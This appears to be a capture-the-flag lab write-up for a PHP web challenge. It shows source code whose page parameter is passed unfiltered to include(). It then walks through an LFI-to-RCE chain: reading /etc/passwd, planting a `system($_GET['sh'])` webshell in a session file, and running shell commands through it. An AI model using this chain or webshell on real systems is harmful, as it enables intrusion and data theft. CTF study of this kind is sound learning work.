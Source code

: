 # Simple Web 0x01(Lab - Hello from Windows 98)
###### tags: `CTF` `Web` `eductf`
Challenge: https://windows.ctf.zoolab.org/

Very similar to [0x07(Lab - `HakkaMD`)](/nGAjlvyURtOcRBW1XfCfOA)

## Source code
:::spoiler code
```php!=
 <?php
  session_start();
  if(isset($_GET['source'])){
    highlight_file('./'.$_GET['source'].'.php');
    die();
  }
  if(isset($_GET['name']) && $_GET['name']!=''){
    $_SESSION['name'] = $_GET['name'];
    header("Location: /?page=hi.php");
    die();
  }
  if(!isset($_GET['page'])){
    header("Location: /?page=say.php");
    die();
  }
?>
<!DOCTYPE html>
<html>
<head>
  <title>Hello from Windows 98</title>
  <meta charset="UTF-8" />
  <link rel="stylesheet" href="https://unpkg.com/98.css" />
</head>
<style>
    body{
        background: url('blue.png');
        background-size: cover;
        display: flex;
        align-items: center;
        justify-content: center;
        height: 100vh;
        margin: 0;
    }
</style>
</style>
<body>
  <div class="window" style="margin: 32px; width: 500px">
    <div class="title-bar">
      <div class="title-bar-text">
        Hello World..
      </div>
      <div class="title-bar-controls">
        <button aria-label="Minimize"></button>
        <button aria-label="Maximize"></button>
        <button aria-label="Close"></button>
      </div>
    </div>
    <div class="window-body">
      <?php include($_GET['page']);?>
    </div>
  </div>
</body>
</html>

```
:::

## Exploit - LFI to RCE
1. First things first, the website has `LFI` problem
`https://windows.ctf.zoolab.org/?page=/etc/passwd`
![](https://i.imgur.com/2BHfWtQ.png)

2. <font color="FF0000">**通靈**</font>
It didn't provide any information about system, so we can assume the setting is default at first.

3. `webshell`
`<?php system($_GET['sh']); ?>`
↓
We use `LFI` to read session file:
`https://windows.ctf.zoolab.org/?page=/tmp/sess_995c0ecc84473170723e595f9f4b8829`
![](https://i.imgur.com/gAnKZGF.png)
It execute system function successfully.
↓
`https://windows.ctf.zoolab.org/?page=/tmp/sess_995c0ecc84473170723e595f9f4b8829&sh=ls%20/var/www/html`
↓
![](https://i.imgur.com/JOOmyyl.png)
↓
`https://windows.ctf.zoolab.org/?page=/tmp/sess_995c0ecc84473170723e595f9f4b8829&sh=cat%20/var/www/html/flag.txt`
4. Then we got flag!!!